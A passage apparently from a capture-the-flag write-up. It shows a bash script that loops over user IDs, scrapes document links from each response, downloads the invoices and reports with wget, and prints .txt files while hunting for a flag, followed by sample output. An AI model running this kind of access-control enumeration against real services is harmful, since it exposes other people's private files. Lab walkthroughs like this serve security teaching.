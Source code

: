 ```bash
        -d "uid=$i")
    
    # Extract document links
    links=$(echo "$response" | grep -oP '\/documents\/.*?\.(pdf|txt)')
    
    if [ -z "$links" ]; then
        echo "[-] No documents found for UID $i" | tee -a "$results_file"
        continue
    fi
    
    echo "[+] Found documents for UID $i:" | tee -a "$results_file"
    echo "$links" | tee -a "$results_file"
    
    # Download files
    for link in $links; do
        filename=$(basename "$link")
        full_url="$url$link"
        
        echo "Downloading $filename..." | tee -a "$results_file"
        wget -q "$full_url" -O "$filename"
        
        # Check for flag in .txt files immediately
        if [[ "$filename" == *.txt ]]; then
            echo "=== FLAG CHECK ===" | tee -a "$results_file"
            cat "$filename" | tee -a "$results_file"
            echo "==================" | tee -a "$results_file"
        fi
    done
done

echo "Operation complete. Check $results_file for details."
```

After a while, we can see the following output:

```
Testing UID 1...
[+] Found documents for UID 1:
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
Downloading Invoice_1_09_2021.pdf...
Downloading Report_1_10_2021.pdf...
Testing UID 2...
[+] Found documents for UID 2:
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
Downloading Invoice_2_08_2020.pdf...
Downloading Report_2_12_2020.pdf...
Testing UID 3...
[+] Found documents for UID 3:
/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
Downloading Invoice_3_06_2020.pdf...
Downloading Report_3_01_2020.pdf...
Testing UID 4...
[+] Found documents for UID 4:
/documents/Invoice_4_07_2021.pdf
/documents/Report_4_11_2020.pdf
Downloading Invoice_4_07_2021.pdf...
Downloading Report_4_11_2020.pdf...
Testing UID 5...
[+] Found documents for UID 5:
/documents/Invoice_5_06_2020.pdf
/documents/Report_5_11_2021.pdf
```